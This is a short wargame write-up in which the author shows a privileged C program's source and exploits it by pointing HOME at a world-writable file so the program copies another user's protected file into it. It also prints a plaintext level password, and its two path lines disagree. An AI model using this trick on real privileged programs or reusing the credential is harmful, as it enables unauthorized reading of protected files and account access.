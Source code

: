 # username
atalanta
# password
mUcSNQlaXtwSvGcgeTYZ
# mission contents
User athena lets us run her program, but she hasn't left us her source code.
# method of solve
There is a weird binary and its C source code file. This is the contents of the source code file
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <pwd.h>
int main()
{
    setuid(2006); 
    setgid(2006); 
    const char *filename;
    struct stat fs;
    int r;
    filename = getenv("HOME");
    printf ("HOME detected: %s\n",filename);
    char cmd[1000];
    FILE *out_file = fopen(getenv("HOME"), "w");
    FILE *fpipe;
    char *command = "/bin/cat /var/lib/me";
    char c = 0;

    if (0 == (fpipe = (FILE*)popen(command, "r")))
    {
        perror("popen() failed.");
        exit(EXIT_FAILURE);
    }

    while (fread(&c, sizeof c, 1, fpipe))
    {
        fprintf(out_file, "%c",c);
    }
    pclose(fpipe);
    pclose(out_file);
    r = stat(filename,&fs);
    struct passwd *pw = getpwuid(fs.st_uid);
    if (pw->pw_name != "atalanta"){
    r = chmod( filename, fs.st_mode & ~(S_IROTH)+~(S_IRGRP) | S_IWGRP );
    }
    stat(filename,&fs);
    return EXIT_SUCCESS;
}
```
This code indicates that binary will write the contents of the /var/lib/me file to the file indicated in the HOME variable. So all we need to do is create a file that can be written to, set that as the HOME variable, then run the `weird` binary
```
touch /tmp/...atalanta-theshyhat/test
chmod 777 /tmp/...atalanta-theshyhat/test
export HOME=/tmp/...atalanta_theshyhat/test
./weird
```
